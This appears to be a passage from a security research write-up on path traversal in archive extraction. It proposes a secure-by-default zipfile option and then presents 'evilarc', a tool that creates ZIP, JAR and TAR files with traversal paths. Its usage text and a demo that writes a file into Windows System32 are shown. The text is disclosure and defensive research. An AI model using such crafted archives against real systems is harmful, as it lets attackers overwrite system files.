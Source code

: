By default the `allow_traverse` is set to `False`, throwing `zipfile.BadZipfile` if path traversal characters are encountered. This would provide a secure by default configuration for the library while still allowing the existing behavior if necessary. This requires the developer to explicitly request support for path traversal, thus mitigating accidental and insecure usage. This is unlikely to impact existing code, as archives with path traversal characters are not easy to create and it is extremely unlikely a legitimate archive would accidentally include such characters.

During the course of this write-up we grew tired of hand-editing zip archives in a hex-editor to add directory traversal characters. So, we put together a Python script that can be used to generate ZIP archives with path traversal sequences automatically inserted. It can create directories in both Unix and Windows environments for ZIP files (including jar) and tar files with and without compression (gzip or bzip2). You can specify an arbitrary number of directories to traverse and an additional path to append (think `var/www` or `Windows\System32`).

The full usage follows:

```
Usage: evilarc <input file>

Create archive containing a file with directory traversal

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -f OUT, --output-file=OUT
                        File to output archive to.  Archive type is based off
                        of file extension.  Supported extensions are zip, jar,
                        tar, tar.bz2, tar.gz, and tgz.  Defaults to evil.zip.
  -d DEPTH, --depth=DEPTH
                        Number directories to traverse. Defaults to 8.
  -o PLATFORM, --os=PLATFORM
                        OS platform for archive (win|unix). Defaults to win.
  -p PATH, --path=PATH  Path to include in filename after traversal.  Ex:
                        WINDOWS\System32\

$ ./evilarc.py test.txt -p Windows\\System32\\ 
Creating evil.zip containing ..\..\..\..\..\..\..\..\Windows\System32\test.txt  
$ java javaunzip evil.zip
Extracting: ..\..\..\..\..\..\..\..\Windows\System32\test.txt
$ ls -al /cygdrive/c/Windows/System32/test.txt
-rwxr-x---+ 1 gose mkgroup-l-d 21 Feb 24 11:52 /cygdrive/c/Windows/System32/test.txt
```

This script available for download on [GitHub](https://github.com/Neohapsis/evilarc).
